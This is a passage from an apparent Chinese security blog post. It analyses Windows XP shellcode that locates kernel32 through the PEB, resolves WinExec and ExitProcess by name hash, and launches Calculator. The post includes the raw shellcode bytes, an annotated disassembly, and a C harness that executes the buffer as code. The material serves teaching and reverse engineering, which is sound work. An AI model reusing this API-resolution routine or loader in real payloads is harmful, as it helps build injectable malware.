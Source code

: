 ```yaml
---
layout: mypost
title: 一段shellcode的分析调试解释API地址的动态定位
categories: [PWN]
---
```




## 一段shellcode

今天的主角是一段shellcode代码

```c
char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
```

该shellcode的作用是调用系统中winexec函数，使之执行**WinExec("calc",1)**从而弹出计算器。





## 运行环境

操作系统：Windows XP SP3

调试工具：vc 6.0, ollyice



## shellcode原理

实际中使用的shellcode 为了能在不同的主机环境上正常运行，必须还要能动态地获得自身所需的 API 函数地址。 

Windows 的 API 是通过动态链接库中的导出函数来实现的。Win_32 平台下的 shellcode 广泛使用的方法是通过从进程环境块中找到动态链接库的导出表，并搜索出所需的 API 地址，然后逐一调用。

所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个基础的动态链接库。如果想要 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法：

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122253.png)

1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。 
2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。 
3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针， 其中，存放着已经被进程装载的动态链接库的信息。 
4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指针 InInitializationOrderModuleList。 
5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。 
6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的 加载基地址。 
7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。 
8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。 
9. 至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址
   1. 导出表偏移0x1C处的指针指向存储导出函数偏移地址（RVA）的列表
   2. 导出表偏移0x20处的指针指向存储导出函数名的列表
   3. 函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA
   4. 获得RVA后，再加上前边已经得到的动态链接库的基地址，就能算出API此时在内存中的绝对地址





### shellcode对应的汇编代码

```c
004273B0 > /EB 54           jmp     short 00427406

/*该函数查找winexec函数地址并赋值给ebp*/    
004273B2   |31F6            xor     esi, esi  //esi清零
004273B4   |64:8B76 30      mov     esi, dword ptr fs:[esi+30]  //esi值为指向PEB的指针
004273B8   |8B76 0C         mov     esi, dword ptr [esi+C]  //esi值为指向 PEB_LDR_DATA 结构体的指针
004273BB   |8B76 1C         mov     esi, dword ptr [esi+1C]  //esi值为指向模块初始化链表的指针 InInitializationOrderModuleList

004273BE   |8B6E 08         mov     ebp, dword ptr [esi+8]  //ebp值为模块初始化链表当前结点的基地址
004273C1   |8B36            mov     esi, dword ptr [esi]  //esi值为指向模块初始化链表下一个结点的指针
004273C3   |8B5D 3C         mov     ebx, dword ptr [ebp+3C]  //ebx值为指向当前节点的pe头的指针
004273C6   |8B5C1D 78       mov     ebx, dword ptr [ebp+ebx+78]  //ebx值为当前结点的pe头的导出表的相对地址
004273CA   |85DB            test    ebx, ebx  //若遍历完当前结点的导出表
004273CC  ^|74 F0           je      short 004273BE  //则跳转到下一结点遍历其导出表
004273CE   |01EB            add     ebx, ebp  //ebx加上ebp的基址后得到可直接访问的绝对地址
004273D0   |8B4B 18         mov     ecx, dword ptr [ebx+18]  //偏移18，得到导出表中的函数总数ecx
004273D3   |67:E3 E8        jcxz    short 004273BE  //ecx减为0则跳转，去下一个结点的导出表

    
004273D6   |8B7B 20         mov     edi, dword ptr [ebx+20]  //导出表偏移20处是函数名称列表
004273D9   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273DB   |8B7C8F FC       mov     edi, dword ptr [edi+ecx*4-4]  //把导出表最后一个函数名地址赋给edi
004273DF   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273E1   |31C0            xor     eax, eax  //把eax置零
004273E3   |99              cdq  //先把EDX的所有位都设成EAX最高位的值（0）,再把edx扩展为eax的高位，也就是说变为64位。
    
/*此处是对edi所指函数名做hash并与事先入栈的hash（[esp+4]）比较*/
004273E4   |0217            add     dl, byte ptr [edi]  //dl处加上edi所指的一个字节
004273E6   |C1CA 04         ror     edx, 4  //edx循环右移4位
004273E9   |AE              scas    byte ptr es:[edi]  // 将al中的值（0）与es:edi所指向的目的地址处的一个字节进行比较，如果相等，ZF=1（判断字符串是否结尾）
004273EA  ^|75 F8           jnz     short 004273E4  //zf=0则跳转
004273EC   |3B5424 04       cmp     edx, dword ptr [esp+4]  //比较edx和预先入栈的函数名的hash
004273F0  ^|E0 E4           loopdne short 004273D6  //CX-1，若CX!=0且ZX=0则跳转，查询上一个函数名的hash
004273F2  ^|75 CA           jnz     short 004273BE  //zx=0则跳转到下一个结点，遍历其导出表

004273F4   |8B53 24         mov     edx, dword ptr [ebx+24] //结点导出表偏移24为函数序号表
004273F7   |01EA            add     edx, ebp  //edx加上ebp的基址后得到可直接访问的绝对地址
004273F9   |0FB7144A        movzx   edx, word ptr [edx+ecx*2]  //得到函数在序号表中的序号
004273FD   |8B7B 1C         mov     edi, dword ptr [ebx+1C]  //导出表偏移1c指向函数地址表
00427400   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
00427402   |032C97          add     ebp, dword ptr [edi+edx*4]  //根据序号得到相对地址，加上基址得到函数的绝对地址
00427405   |C3              retn


/*调用kernel.winexec("calc",1)弹出计算器*/
00427406   \68 E7C4CC69     push    69CCC4E7  //待查找的函数名hash入栈
0042740B    E8 A2FFFFFF     call    004273B2  //调用查找函数查找winexec函数并赋值给ebp
00427410    50              push    eax  
00427411    68 63616C63     push    636C6163  //"calc"
00427416    8BD4            mov     edx, esp  //把栈顶（calc）赋值给edx
00427418    40              inc     eax  //eax加一，为1
00427419    50              push    eax  //参数1入栈
0042741A    52              push    edx  //参数“calc”入栈
0042741B    FFD5            call    ebp  //调用kernel.winexec("calc",1)弹出计算器


/*收尾阶段，完美退出*/
0042741D    68 77A6602A     push    2A60A677  //ExitProcess的hash
00427422    E8 8BFFFFFF     call    004273B2  //找到ExitProcess函数的地址并赋值给ebp
00427427    50              push    eax  //参数0入栈
00427428    FFD5            call    ebp  //ExitProcess(0) 结束调用的进程及其所有的线程

```

### shellcode对应的执行流程

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122324.png)







## 编写程序调试shellcode



```c
#include<stdio.h>

char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
 
int main(int argc, char **argv)
{
int (*shellcode)();
shellcode = (int (*)()) evil;
(int)(*shellcode)();
}
```

保存代码为sc1.c并拖入vc6.0,编译，运行，弹出计算器。为了使代码更加简洁，我们进入工程-->设置-->C/C++-->工程选项 中删除 /GZ参数。

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122344.png)



把debug模式下的sc1.exe文件拖入ollyice中，定位到main函数：

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122425.png)



进入evil函数：

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122441.png)

在调用winexec函数处下断点，按F9运行至此处：

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122503.png)

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122552.png)

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122605.png)

可以看到将要执行winexec("calc",1)调出计算器窗口。F8单步执行成功调出计算器窗口

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122626.png)



收尾阶段。此时鼠标手动关闭计算器窗口，在CALL EBP 处按F2下断点，F9直接运行至此处

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122643.png)

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122709.png)

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122746.png)

可以看出将要执行WinExec(0)函数用于退出，F8单步运行，系统自动关闭cmd窗口并终止进程。

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207122810.png)




